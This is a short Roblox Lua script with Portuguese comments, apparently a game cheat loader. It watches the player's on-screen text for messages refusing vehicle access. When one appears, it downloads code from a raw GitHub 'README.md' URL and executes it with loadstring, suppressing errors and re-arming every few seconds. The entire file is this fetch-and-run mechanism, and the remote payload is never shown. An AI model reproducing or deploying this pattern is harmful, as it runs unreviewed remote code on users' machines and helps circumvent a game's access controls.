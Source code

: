 -- Frases específicas que serão detectadas
local frasesEspecificas = {
    "Esse veículo de", -- parte fixa (o nome do jogador muda)
    "Você não pode entrar nesse carro agora!",
    "Você não tem permissão para dirigir esse veículo!",
    "Você deve consertar o veículo!"
}

-- Função para verificar se o texto corresponde a qualquer das frases
local function contemFraseAlvo(texto)
    texto = texto:lower()
    for _, frase in ipairs(frasesEspecificas) do
        if texto:find(frase:lower()) then
            return true
        end
    end
    return false
end

-- Previne execução múltipla por detecção
local executado = false

-- Monitorar mensagens no GUI
local function monitorarMensagens()
    local player = game.Players.LocalPlayer
    local gui = player:WaitForChild("PlayerGui")

    gui.DescendantAdded:Connect(function(desc)
        if desc:IsA("TextLabel") or desc:IsA("TextBox") or desc:IsA("TextButton") then
            desc:GetPropertyChangedSignal("Text"):Connect(function()
                if contemFraseAlvo(desc.Text) and not executado then
                    executado = true
                    print("Frase detectada. Executando script...")
                    pcall(function()
                        loadstring(game:HttpGet("https://raw.githubusercontent.com/isaac7999/Hs/refs/heads/main/README.md"))()
                    end)
                    task.delay(3, function()
                        executado = false -- libera para nova execução
                    end)
                end
            end)
        end
    end)
end

-- Inicia o monitoramento
pcall(monitorarMensagens)
